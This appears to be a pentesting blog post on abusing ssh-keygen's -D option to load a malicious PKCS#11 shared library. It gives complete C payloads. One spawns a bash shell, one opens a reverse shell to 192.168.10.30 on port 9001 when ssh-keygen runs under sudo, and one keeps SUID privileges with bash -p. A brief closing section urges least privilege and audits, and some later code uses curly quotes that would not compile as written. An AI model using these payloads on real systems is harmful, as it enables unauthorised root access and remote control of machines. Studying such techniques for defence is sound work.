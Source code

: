 ```yaml
---
title: "Abusing ssh-keygen"
summary: “SSH-Keygen is a tool that allows you to create and manage SSH keys, this tool is present in most UNIX systems today as a tool to facilitate the management of SSH keys.”
date: 2024-11-17
tag: 
    - Cybersecurity
    - Pentesting
    - SSH
    - Linux
    - SUID 
    - Persistence
---
```


# Abusing ssh-keygen

SSH-Keygen is a tool that allows you to create and manage SSH keys, this tool is present in most UNIX systems today as a tool to facilitate the management of SSH keys.

In this article we will explore some methods to abuse this tool with certain configurations as a method of persistence or privilege escalation on the system.

<!-- more -->

In particular, we will abuse a specific functionality of this binary that allows the loading of public keys from a card reader library, this option is the **-D** parameter, its use is as follows: 

```bash
ssh-keygen -D ./lib.so
```

## How to generate the payload

Now that we've explained how to use this function, let's look in more detail at how to generate a loadable payload, for which we'll first need to obtain a version of pkcs11.h . This header file is where we define the data types needed for the function of our library that will call ssh-keygen when using the **-D** parameter. 

In our case, we will go to the Open Smart Card repository and download the version we need from the following URL:

<a href=" https://github.com/OpenSC/libp11/blob/master/src/pkcs11.h
" target="_blank">GitHub - PKCS11</a>

With this file we will proceed to write a small program in C with the necessary structure to be executed by ssh-keygen, in our case this program will spawn a bash shell.

```c
#include "pkcs11.h"
#include <stdio.h>
#include <unistd.h>

CK_RV C_GetFunctionList(CK_FUNCTION_LIST_PTR_PTR ppFunctionList) {
    
    pid_t pid = fork();

    if (pid == 0) {

        char *cmd = "/bin/bash";
        char *args[] = {cmd, NULL};
        execv(cmd,args);

   } else if(pid > 0) {
        wait(NULL);
    } else {
        perror("fork");
        return 1;
    }

    return CKR_OK;
}
```

Once compiled we can load it as a library as indicated in the introduction. 

## Profit

### Case 1: Sudo SSH-Keygen

Let's take advantage of a scenario where our user has permissions to execute the ssh-keygen command as root.

```bash
Matching Defaults entries for pnavas on test:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/snap/bin,
    use_pty

User pnavas may run the following commands on permx:
    (ALL : ALL) NOPASSWD: /usr/bin/ssh-keygen
```

In this case, instead of using a simple bash call, we will load a reverse shell.

```c
#include ‘pkcs11.h’
#include <stdio.h>
#include <unistd.h>

CK_RV C_GetFunctionList(CK_FUNCTION_LIST_PTR_PTR ppFunctionList) {
    
    pid_t pid = fork();

    if (pid == 0) {

        char *cmd = ‘/bin/bash’;
        char *args[] = {cmd, ‘-c’ , ‘bash -i >& /dev/tcp/192.168.10.30/9001 0>&1’, NULL};
        execv(cmd,args);

   } else if(pid > 0) {
        wait(NULL);
    } else {
        perror(‘fork’);
        return 1;
    }

    return CKR_OK;
}
```

As a result, when we load it, we will get a root connection in our listener, we could modify it to run a shell simply as in the example in the theory section 

### Case 2: SSH Keygen SUID

In this scenario we are going to exploit a slightly less common scenario where ssh-keygen has the SUID bit set, in this case to keep the SUID privileges we need to change the library code a bit so that the shell keeps the privileges

```c
#include ‘pkcs11.h’
#include <stdio.h>
#include <unistd.h>

CK_RV C_GetFunctionList(CK_FUNCTION_LIST_PTR_PTR ppFunctionList) {
    
    pid_t pid = fork();

    if (pid == 0) {

        char *cmd = ‘/bin/bash’;
        char *args[] = {cmd, ‘-p’, NULL};
        execv(cmd,args);

   } else if(pid > 0) {
        wait(NULL);
    } else {
        perror(‘fork’);
        return 1;
    }

    return CKR_OK;
}
```

Once compiled, we can run the command to load the library and get a shell with the necessary privileges.

## Final Thoughts

As demonstrated, ssh-keygen is a powerful tool that, when misconfigured or misused, can become a significant security risk. The scenarios presented in this article highlight the importance of properly configuring and restricting access to binaries with elevated privileges.

By understanding and proactively managing the capabilities and risks associated with common tools like ssh-keygen, administrators can ensure the integrity and security of their systems. 

!!! note
    Always adopt the principle of least privilege and conduct regular security audits to minimize attack surfaces.
